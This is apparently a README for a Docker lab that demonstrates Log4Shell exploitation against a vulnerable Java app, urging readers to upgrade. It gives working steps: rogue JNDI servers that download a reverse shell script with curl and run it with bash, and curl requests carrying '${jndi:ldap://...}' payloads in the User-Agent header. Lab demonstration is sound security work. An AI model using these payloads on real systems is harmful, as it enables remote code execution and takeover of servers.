 # fun with log4shell and docker

This repo to proof exploitation in latest java version exist too !
Please do not rely on your java version to be safe and upgrade neo4j package !

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/


## play 
- one terminal : launch the vulnerable app : ./start_vuln_server.sh
- other terminal :
  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
  - launch the exploit : `./exploit.sh <host_ip>` 
	- launch a rogue server https://github.com/veracode-research/rogue-jndi with --command "curl -q http://ip:port/reverse.sh -o /tmp/reverse_shell.sh" to download the reverse
        - launch an http server to download the reverse shell 
	- launch another rogue server to start the reverse shell execution https://github.com/veracode-research/rogue-jndi with --command "bash /tmp/reverse_shell.sh"
	- (i don't know yet why chaining multiple commands in only one rogue server don't work)

- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4445/o=tomcat}' && sleep 1 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4446/o=tomcat}''

![](./poc.png)
